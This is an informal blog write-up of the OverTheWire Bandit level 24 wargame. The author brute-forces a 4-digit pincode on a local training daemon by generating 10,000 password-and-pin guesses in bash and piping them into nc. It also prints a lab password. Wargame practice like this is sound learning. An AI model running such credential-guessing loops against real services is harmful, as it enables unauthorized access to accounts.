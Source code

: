 +++
title = ' OverTheWire Bandit24'
date = 2024-07-04T11:09:33-05:00
+++

# Introduction

This post is part of a series walking through OverTheWire Bandit. You many want to start at the [beginning of the series]({{<ref "bandit-start">}}). The posts are my unedited, informal thought process while solving levels.

# Task

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

# Theory

- bash scripting
- nc

# Solution

Okay another scripting challenge. It seems fairly straight forward though - we need to write a script that loops through all 10,000 combinations and tries one at a time to connect to the port and if we get the password print it out. Let's start with some basic exploration though

```bash
 mktemp -d
 cd /tmp/tmp.dQIzuL4l0I
 nc -N localhost 30002

	I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
	gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
	Wrong! Please enter the correct current password and pincode. Try again.
```

Okay, now we see how this thing works. I started doing some googling about how to send things to netcat via a script. I came upon this [stackoverflow post](https://stackoverflow.com/a/22536458). So if we have a txt file with a bunch of commands we can send it to netcat.

So I write the following bash script to generate our txt file

```bash
#!/bin/bash
for i in $(seq 1 10000);
do
    echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> pins.txt
done
```

Then ran the following (not sure the permission changes are completely necessary, but can't hurt)

```bash
touch pins.txt
chmod 777 pins.txt
chmod 777 pins.sh

nc localhost 30002 < pins.txt
```

And just like that, out came the password
